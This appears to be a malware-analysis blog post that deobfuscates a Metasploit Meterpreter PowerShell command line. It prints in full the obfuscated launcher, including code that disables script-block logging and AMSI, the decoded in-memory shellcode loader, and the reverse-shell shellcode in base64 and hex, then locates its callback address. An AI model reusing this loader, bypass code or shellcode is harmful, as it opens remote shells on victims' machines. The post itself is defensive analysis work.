 ```yaml
---
tags: PowerShell-Analysis
---
```

## Meterpreter Shellcode Obfuscated in PowerShell
Taking apart a Meterpreter Payload encoded within an obfuscated PowerShell script.

Below is an example of a command line which is often associated with exploitation attempts via Metasploit

```powershell
C:\\Windows\\SysWOW64\\cmd.exe /c powershell.exe -nop -w hidden -noni -c <!#-- if([IntPtr]::Size -eq 4){$b=$env:windir+'\\sysnative\\WindowsPowerShell\\v1.0\\powershell.exe'}else{$b='powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c
$x_wa3=((''Sc''+''{2}i''+''pt{1}loc{0}Logg''+''in''+''g'')-f''k'',''B'',''r'');If($PSVersionTable.PSVersion.Major -ge 3){ $sw=((''E''+''nable{3}''+''c{''+''1}''+''ip{0}Bloc{2}Logging''+'''')-f''t'',''r'',''k'',''S''); $p8=[Collections.Generic.Dictionary[string,System.Object]]::new();
$gG0=((''Ena''+''ble{2}c{5}i{3}t{''+''4}loc''+''{0}{1}''+''nv''+''o''+''cationLoggi''+''ng'')-f''k'',''I'',''S'',''p'',''B'',''r''); $jXZ4D=[Ref].Assembly.GetType(((''{0}y''+''s''+''tem.{1}a''+''n''+''a{4}ement.A{5}t''+''omati''+''on.{2''+''}ti{3}s'')-f''S'',''M'',''U'',''l'',''g'',''u''));
$plhF=[Ref].Assembly.GetType(((''{''+''6}{''+''5}stem.''+''{''+''3''+''}{9}''+''n{9}{''+''2}ement''+''.{''+''8}{''+''4}t{''+''7''+''}''+''m{9}ti{7}n''+''.''+''{8''+''}''+''m''+''si{0''+''}ti{''+''1}s'')-f''U'',''l'',''g'',''M'',''u'',''y'',''S'',''o'',''A'',''a''));
if ($plhF) { $plhF.GetField(((''''+''a{''+''0}''+''si{4}''+''nit{''+''1}''+''ai''+''l{2}{''+''3}'')-f''m'',''F'',''e'',''d'',''I''),''NonPublic,Static'').SetValue($null,$true); }; $lCj=$jXZ4D.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); If ($lCj) { $a938=$lCj.GetValue($null);
If($a938[$x_wa3]){ $a938[$x_wa3][$sw]=0; $a938[$x_wa3][$gG0]=0; } $p8.Add($gG0,0); $p8.Add($sw,0); $a938[''HKEY_LOCAL_MACHINE\\Software\\Policies\\Microsoft\\Windows\\PowerShell\\''+$x_wa3]=$p8; } Else { [Ref].Assembly.GetType(((''S{2}{3}''+''t''+''em''+''.Mana''+''ge''+''ment.{''+''5}
{4}to''+''mation.Scr''+''ipt{1}loc{0}'')-f''k'',''B'',''y'',''s'',''u'',''A'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object
System.IO.MemoryStream(,
[System.Convert]::FromBase64String(((''''H4sIA{1}wxYWUA/7VWbW/aShP9X''+''qn/waqQsHUJmJf2kkiVnjX{1}QIOJiQMkUFRt7MVsWXuJvQ5Bvf3vnfV{0}QtSkzXOvasnCXs/M''+''zp45c4ZV{1}rqC8lCh723l29s3Sn7ZOMKBopbcGW/fV5QS3WqPH0t+m42Uj4q6QNttlweYhsuTk04SRSQU2Xu1RwSKYx{0}cM{1}piVVP+UWZr{1}pGj85uvxBXKN6X0pdpj/Aaz3Gzfwe6aK{1}co9OS3IXexTKzqbBkVavnz57K2OKovq6e3CWaxWnb2sSBB1WOsrCnfNbnh5X5{0}1{0}JF3YjHfCWqMxo2G9VJGOMVGUG0O2IRseZeXIbDPB4nIiKJwuxUMkxmpJbh0Y64izwvInFcrig{0}ucFiufyfush3v0hCQ''+''QNSHYSCRHzrkOiOuiSu9nHoMXJBVkvwckR{1}Q3+paWB2xzd{1}{0}YUJYxXl/wmjjsiuwO61Tuqh{1}1jZItIqUNNnzmlx{0}2{1}k8yw/k2jGAw2ujAuA33cJ4QN9Alz/0n2GQI8{0}xbVIvxDIWbV5TFPvj4peUSzYHQse7eG1dBklRFs+IK6UghY6q7w2Wr1wBce7XgIriymn3v{0}R/wkBSqvb3vS9tHqZz12yoiHp7kMcU{0}eg7BO{1}i7KQFYNXSd3''+''CbAQZquX8A/G6hB{1}fCwm0ZMdPbqcBFQ++RkKZRy{0}kQmljyAqqrj1NJqudWh6{1}FgkAvuwd6FpaQaOQwjpvjn2xu3wHo3KH4TiuKHYCnepWFIdgRryKgsKY5p9QInj6KFsgT9dKmKAujkURbnmoDyme+b4dHsYiSlyo{0}GBw6WyJSzGTkFSUPvWIsXeoX+x/sMMBIB3MGHQQR{0}qDgsCKBMIRki8RpJpyQ6s6RAyC{0}SMB2KTSYT{0}sg1DkfZISDPv{1}k83/bKZFP2Tkl9gUoBzkCQV3GBcVZUojA''+''UokcQaK/assfpag{0}J1ORPICqUWj{0}Yy9kI1QCofjxkZSNYcpBSUSAIgZ8cDAMfnQygRHfVc7pzaC67rbdyiZbmh9sIPbgntCmwNurdq20HlguZ3Y7pltRHf+zm2PkOt98sixA3bjaUt0bNQfU91orV1Dv0yf/Wta933kjcZrl+n26ea+1op1uuvPZKwshttq9a''+''901Gy2zpv6BgCUPhvwCejufgjPoKznQ2MQG/qAnX7qXNzMGuZ8xvq1lrlezXjsf{0}ju1mq1Yw93rT1CBvea1v6qfs{1}v+25gt{1}JeO+60NugUoU54OjUNfnZtRMiuTbG/5bszH6GZ30HorzUl8/H{1}NMZj00CT3tfb7nHNrx3PrvDam{1}0bd{0}69uljDu7nrj62a3hp45J63hzM6vZOxjFvDnF9hNJzvzVqtfh038MbgyABgzfkt6q2vt6bNwP9y0uBoykaPtuN+9''+''8yd1/+OrY/voJK{0}CQ1Fs7GUjdmUovf2TYm5x+2Dcr4k6haO4jVm''+''UGZQ66{0}nTB6ZuQDbH{1}KDCKpyjm9IFBIGow+GY8FTxBh3pfxnSg2zJ5sIckBN4BHSeu5JgyGfG4{0}4F3OhWDo5mUOWwP2UldUhCX2xruj3TV0HQdfv9VbK8tcfrsO3e5g6Mhr4Q2AJz0N8lsaHkHSlq{0}8dnv''+''8ZMhj+AhToF6C9hB/svQHBAAn{0}mliiaHDODjHMj/bAiScQAnZ1OP5Cjv6U{0}RDiiNwqJVBSoh3O2VJyc37zRwmUq9{1}afrzf{1}uhx7RdfX0UqvZIh9NPy04UDMf9z{1}MwwFWDogKoyko37F5DIu+agz{0}I+0BKr''+''/J{0}/hM8TcTSCf1aptv8AyS{1}BNoI{0}AAA='')-f''L'',''E'')))),
[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"]
```

Obfuscation is used in the form of concatenating the base64 encoded string, and gzip compression.
We can identify the value of the arrays after a given sequence by looking for the '-f' argument.

"-f''L'',''E''"

{0} = L

{1} = E

Then it's a case of getting the Base64 encoded string, removing the concatenations and replacing the array values.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b813cf1a-4d3a-4b1d-86ef-17d99456d3b5)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d8739fc4-2063-4328-a35a-b8d931da62ae)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5108a2ac-dbb7-4ff2-a75c-c4623fc25fc8)




Next, we'll add a From Base64 and Gunzip operator to reveal the following code:

```powershell
function i5P {
        Param ($cWo8x, $ip)
        $g8lN = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

        return $g8lN.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String])).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($g8lN.GetMethod('GetModuleHandle')).Invoke($null, @($cWo8x)))), $ip))
}

function ma1_D {
        Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $m4AK,
                [Parameter(Position = 1)] [Type] $vGu = [Void]
        )

        $fqGV5 = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $fqGV5.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $m4AK).SetImplementationFlags('Runtime, Managed')
        $fqGV5.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $vGu, $m4AK).SetImplementationFlags('Runtime, Managed')

        return $fqGV5.CreateType()
}

[Byte[]]$nLQ2k = [System.Convert]::FromBase64String("/OiPAAAAYDHSieVki1Iwi1IMi1IUi3IoMf8Pt0omMcCsPGF8Aiwgwc8NAcdJde9Si1IQV4tCPAHQi0B4hcB0TAHQi0gYi1ggAdNQhcl0PEkx/4s0iwHWMcCswc8NAcc44HX0A334O30kdeBYi1gkAdNmiwxLi1gcAdOLBIsB0IlEJCRbW2FZWlH/4FhfWosS6YD///9daDMyAABod3MyX1RoTHcmB4no/9C4kAEAACnEVFBoKYBrAP/VagpowKgAAWgCAA+hieZQUFBQQFBAUGjqD9/g/9WXahBWV2iZpXRh/9WFwHQM/04Idexo8LWiVv/VagBqBFZXaALZyF//1Ys2akBoABAAAFZqAGhYpFPl/9WTU2oAVlNXaALZyF//1QHDKcZ17sM=")
[Uint32]$fal3 = 0
$lc98 = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll VirtualAlloc), (ma1_D @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $nLQ2k.Length,0x3000, 0x04)

[System.Runtime.InteropServices.Marshal]::Copy($nLQ2k, 0, $lc98, $nLQ2k.length)
if (([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll VirtualProtect), (ma1_D @([IntPtr], [UIntPtr], [UInt32], [UInt32].MakeByRefType()) ([Bool]))).Invoke($lc98, [Uint32]$nLQ2k.Length, 0x10, [Ref]$fal3)) -eq $true) {
        $ubOb = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll CreateThread), (ma1_D @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lc98,[IntPtr]::Zero,0,[IntPtr]::Zero)
        [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll WaitForSingleObject), (ma1_D @([IntPtr], [Int32]))).Invoke($ubOb,0xffffffff) | Out-Null
}
```

This articale from SANS probably does a better job of explaining the grittier details of this script: https://isc.sans.edu/diary/Fileless+Malicious+PowerShell+Sample/23081

But what we are interested in is the Base64 string.
We'll throw it into CyberChef and add a From Base64 and To Hex operator to reveal the shellcode

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/80ecde0b-f1b1-4185-a322-9f616a2fe4e7)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7c49af16-e21f-4871-817b-017094a1c3ab)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/a544358b-3b91-426a-b8fb-d49f52f2c702)




```
fc e8 8f 00 00 00 60 31 d2 89 e5 64 8b 52 30 8b 52 0c 8b 52 14 8b 72 28 31 ff 0f b7 4a 26 31 c0 ac 3c 61 7c 02 2c 20 c1 cf 0d 01 c7 49 75 ef 52 8b 52 10 57 8b 42 3c 01 d0 8b 40 78 85 c0 74 4c 01 d0 8b 48 18 8b 58 20 01 d3 50 85 c9 74 3c 49 31 ff 8b 34 8b 01 d6 31 c0 ac c1 cf 0d 01 c7 38 e0 75 f4 03 7d f8 3b 7d 24 75 e0 58 8b 58 24 01 d3 66 8b 0c 4b 8b 58 1c 01 d3 8b 04 8b 01 d0 89 44 24 24 5b 5b 61 59 5a 51 ff e0 58 5f 5a 8b 12 e9 80 ff ff ff 5d 68 33 32 00 00 68 77 73 32 5f 54 68 4c 77 26 07 89 e8 ff d0 b8 90 01 00 00 29 c4 54 50 68 29 80 6b 00 ff d5 6a 0a 68 c0 a8 00 01 68 02 00 0f a1 89 e6 50 50 50 50 40 50 40 50 68 ea 0f df e0 ff d5 97 6a 10 56 57 68 99 a5 74 61 ff d5 85 c0 74 0c ff 4e 08 75 ec 68 f0 b5 a2 56 ff d5 6a 00 6a 04 56 57 68 02 d9 c8 5f ff d5 8b 36 6a 40 68 00 10 00 00 56 6a 00 68 58 a4 53 e5 ff d5 93 53 6a 00 56 53 57 68 02 d9 c8 5f ff d5 01 c3 29 c6 75 ee c3
```

Then with this shellcode, we can use a x86 Dissassembler to reveal the instructions.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/8408cee5-eb25-4b97-9c69-e4d3a2662760)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/00b20d83-8eba-4fba-b1de-2773dd0d4b13)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f808fc0b-ad87-486e-a540-8a7bdcd0758d)




To find the IP which the shell will call back to, we need to look for the PUSH instructions above the MOV ESI,ESP instruction, which is above multiple PUSH RAX insutrctions

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5a5efcb0-f9c4-4bde-a647-ccdc421dc1b4)

By taking the Hex contents of the first PUSH instruction, after 68 (Which is just the instruction to PUSH), we get C0A80001, converting this From Hex, To Decimal, we get our source IP: 192.168.0.1

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b72c9cec-eb6f-40bf-9f31-56d0b864d465)












